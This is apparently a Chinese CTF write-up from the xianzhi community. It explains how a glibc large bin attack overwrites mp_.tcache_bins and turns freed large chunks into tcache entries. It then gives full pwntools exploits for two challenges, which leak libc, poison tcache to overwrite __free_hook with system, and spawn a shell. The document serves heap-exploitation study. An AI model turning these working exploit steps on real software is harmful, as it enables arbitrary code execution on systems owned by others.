

# Tcache Attack之攻击mp_ - 先知社区

Tcache Attack之攻击mp\_

- - -

# tcache attack之攻击mp\_

#### 漏洞原理：

###### **large bin&mp\_.tcache\_bins的利用：**

```plain
victim_index = largebin_index (size);
bck = bin_at (av, victim_index);
fwd = bck->fd;

/* maintain large bins in sorted order */
if (fwd != bck)
  {
    /* Or with inuse bit to speed comparisons */
    size |= PREV_INUSE;
    /* if smaller than smallest, bypass loop below */
    assert (chunk_main_arena (bck->bk));
    if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk))
      {
        fwd = bck;
        bck = bck->bk;

        victim->fd_nextsize = fwd->fd;
        victim->bk_nextsize = fwd->fd->bk_nextsize;
        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
      }
```

当我们申请的大小usroted bin中现有的堆块的时候，glibc会首先将unsorted bin中的堆块放到相应的链表中，这一部分的代码就是将堆块放到large bin链表中的操作。当unsorted bin中的堆块的大小小于large bin链表中对应链中堆块的最小size的时候就会执行上述的代码

```plain
if (__glibc_unlikely (size <= 2 * SIZE_SZ)
    || __glibc_unlikely (size > av->system_mem))
  malloc_printerr ("malloc(): invalid size (unsorted)");
if (__glibc_unlikely (chunksize_nomask (next) < 2 * SIZE_SZ)
    || __glibc_unlikely (chunksize_nomask (next) > av->system_mem))
  malloc_printerr ("malloc(): invalid next size (unsorted)");
if (__glibc_unlikely ((prev_size (next) & ~(SIZE_BITS)) != size))
  malloc_printerr ("malloc(): mismatching next->prev_size (unsorted)");
if (__glibc_unlikely (bck->fd != victim)
    || __glibc_unlikely (victim->fd != unsorted_chunks (av)))
  malloc_printerr ("malloc(): unsorted double linked list corrupted");
if (__glibc_unlikely (prev_inuse (next)))
  malloc_printerr ("malloc(): invalid next->prev_inuse (unsorted)");
```

看前面也没有针对fd\_nextsize和bk\_nextsize的检查，也就是说虽然已经针对fd和bk进行了双向链表的检查

但是在large bin链表中并没有堆fd\_nextsize和bk\_nextsize进行双向链表完整性的检查

通过largebin attcak覆写tcache部分的mp\_.tcache\_bins的值为一个很大的地址

mp\_.tcache\_bins的作用就相当于是global max fast，将其改成一个很大的地址之后，再次释放的堆块就会当作tcache来进行处理，也就是我们可以直接进行任意地址分配

‍

#### 例题PassWordBox\_ProVersion

###### 程序分析：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185415-a6432242-8537-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185419-a889b962-8537-1.png)

首先就是输入id，然后输入一个size分配我们指定大小的堆块，接着将我们输入的passwd字符串加密存储在刚刚申请的堆块上

这里需要注意的是这里的size存在一个大小范围也就是 `0x41f<size<0x888` ，那么这里申请的大小在释放的时候就无法进入到tcache和fastbin以及small bin链表中，也就是说我们申请的都是large bin大小的堆块

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185425-abfd633c-8537-1.png)

edit函数就是按照之前我们申请的大小，向相应的堆空间中输入内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185428-ae3eeb5c-8537-1.png)

show函数就是将堆块中的内容进行一个解密操作进行输出，接着是delete函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185432-b097f880-8537-1.png)

delete函数就是将我们指定的堆块释放掉，这里在释放时候为dword\_407C相应的内容赋值了0，那么这里就不存在一个UAF的漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185436-b2de77b8-8537-1.png)

recover函数是将dword\_407C中的位又重新置为了1，并且这里并没有进行堆块是否已经被释放了的检查，也就是说这里其实存在一个UAF的漏洞，我们可以在释放堆块之后，再调用recover函数，就可以利用UAF

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185440-b50519ac-8537-1.png)

‍

###### 攻击思路：

我们可以通过改写large bin的bk\_nextsize的值来想指定的位置+0x20的位置写入一个堆地址，也就是这里存在一个任意地址写堆地址的漏洞

覆写malloc中使用tcache部分的mp\_.tcache\_bins的值为一个很大的地址

之后覆写free\_hook为system，进而getshell

‍

###### 覆写mp\_.tcache\_bins的攻击手段需要两个条件：

1.可以申请largebin大小的堆块

2.存在UAF漏洞

‍

###### 具体步骤：

泄漏出的地址是加密之后。这个加密算法是一个简单的异或，通过将前8位全部置为0，泄漏得到的就是异或的key，之后异或解密就能拿到libc的基地址

```plain
add(0,0x460,"\n")
ru("Save ID:")
key = uu64(r(8))
leak("key",key)
```

获取libc基址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185446-b8b80884-8537-1.png)

```plain
add(1,0x450,"\n")
add(2,0x450,"\n")

free(0)
recover(0)
show(0)

ru("Pwd is: ")
libc_base = (u64(r(8)) ^ key) - (0x7f4eed4e1b80-0x7f4eed2f5000) - 106
leak("base = ",libc_base)
```

将chunk 0放入largebin中

```plain
add(3,0x600,"\n")
```

Tcache Struct劫持的准备：

```plain
mp_ = libc_base + 0x1EC280 
leak("mp_ = ",mp_)

#bins = mp_ + 80
#max = mp_ + 88
tcache_max_bins = mp_+80

free_hook =  libc_base+libc.sym["__free_hook"]
system =  libc_base+libc.sym["system"]
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185451-bb831a7c-8537-1.png)

```plain
free(2)
recover(2)
#将chunk 2放入unsorted bin中
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185456-be9a2f3e-8537-1.png)

```plain
edit(0,p64(0)*3+p64(tcache_max_bins-0x20))
#修改chunk 0的bk_nextsize为_mp+80 - 0x20处，来达到任意地址写一个堆块地址
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185500-c0df5e72-8537-1.png)

```plain
add(4,0x600,"\n")
#申请一个大堆块触发漏洞
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185503-c2ff79b2-8537-1.png)

```plain
free(1)

free(2)
recover(2)
#large bin大小范围的chunk 1、2被释放也会放到tcache bin中

edit(2,p64(free_hook))
#利用uaf达到任意地址写
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185522-ce795628-8537-1.png)

```plain
add(1,0x450,'\n')
add(2,0x450,'\n')
edit(2,p64(system))
edit(1,b'/bin/sh\x00')
#dbg()
free(1)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185518-cbca6c82-8537-1.png)

‍

‍

#### 例题pi

###### 程序分析：

另一道有些相似的堆，同样的利用手法

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185529-d25452a2-8537-1.png)

限制大小0x41F到0x550

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185532-d41cd0b4-8537-1.png)

存在UAF漏洞，和上一题的处理思路类似

[](https://xzfile.aliyuncs.com/media/upload/picture/20231117185535-d62388a8-8537-1.png)

##### exp:

```plain
def dbg():
   gdb.attach(proc.pidof(s)[0])
   pause()

def add(size,index,content):
    s.recvuntil(b'>> ')
    s.sendline(b'1')
    s.recvuntil(b'HOw much?\n')
    s.sendline(str(size))
    s.recvuntil(b'which?\n')
    s.sendline(str(index))
    s.recvuntil('Content:\n')
    s.sendline(content)

def delete(index):
    s.recvuntil(b'>> ')
    s.sendline(b'2')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))

def show(index):
    s.recvuntil(b'>> ')
    s.sendline(b'3')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))  

def edit(index,content):
    s.recvuntil(b'>> ')
    s.sendline(b'4')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))
    s.recvuntil('content:\n')
    s.sendline(content)    

# 0x415(1055) <= size < 0x550(1360)

add(0x460 ,0,b'a') 
add(0x450,1,b'b') 
add(0x450,2,b'c') 
#add(0x500,3,b'd')


delete(0)
show(0)
libc_base = 0x7fff00000000 + 0xF7E45420 - libc.sym['puts']
li('libc_base = '+hex(libc_base))
libcbase = u64(s.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 96 - 0x10 - libc.sym['__malloc_hook']
li('libcbase = '+hex(libcbase))

add(0x540,4,b'a') #largebin

delete(2)

show(2)
heap = u64(s.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
li('heap = '+hex(heap))

mp = libcbase + 0x1EC280
#dbg()
#mp_.tcache_bins = 0x7ffff7fad2d0
#mp_.tcache_max_bytes = 0x7ffff7fad2d8
tcache_max_bins = libcbase + 0x1EC2D0
li('tcache_max_bins = '+hex(tcache_max_bins))
free_hook = libcbase + libc.sym['__free_hook']
system = libcbase + libc.sym['system']

pl = p64(0)*3+p64(tcache_max_bins-0x20)

edit(0,pl)

add(0x540,6,"b") #largebin attack
delete(1)
delete(2)

edit(2,p64(free_hook))

add(0x450,5,b'/bin/sh\x00')

add(0x450,6,p64(system))
#dbg()
delete(5)
```

‍

‍

附件.zip (0.83 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231117185341-920dca34-8537-1.zip)
